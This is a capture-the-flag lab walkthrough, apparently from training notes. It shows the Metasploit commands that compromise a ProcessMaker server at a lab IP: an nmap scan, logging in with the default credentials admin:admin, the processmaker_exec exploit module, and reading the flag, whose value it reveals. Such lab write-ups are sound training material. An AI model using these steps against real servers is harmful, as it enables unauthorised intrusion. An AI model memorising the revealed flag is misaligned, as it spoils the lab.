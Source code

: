 # 🔬Win Workflow Platform - MSF

## Lab 1

>  🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
>  - Target IP: `10.2.27.1`
>  - Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.2.27.1
```

```bash
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Enumeration

- Explore the web application hosted on the web server, before running any vuln scanners

```bash
firefox 10.2.27.1
```

![](.gitbook/assets/image-20230423234005218.png)

- View the web page source code. In this case no **version information** can be found.
- Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login_Settings#:~:text=If%20ProcessMaker%20was%20just%20installed,Password%3A%20admin)
  - `admin`:`admin`

![ProcessMaker v. 2.5.0](.gitbook/assets/image-20230423234454523.png)

### Exploitation

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.27.1
setg RHOST 10.2.27.1
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
run
```

![Metasploit - exploit/multi/http/processmaker_exec](.gitbook/assets/image-20230423235111771.png)

```bash
pwd
cd /
dir
cat flag.txt
```



<details>
<summary>Reveal Flag: 🚩</summary>



`a3dcb4d229de6fde0db5686dee47145d`

![](.gitbook/assets/image-20230423235156384.png)

</details>

------


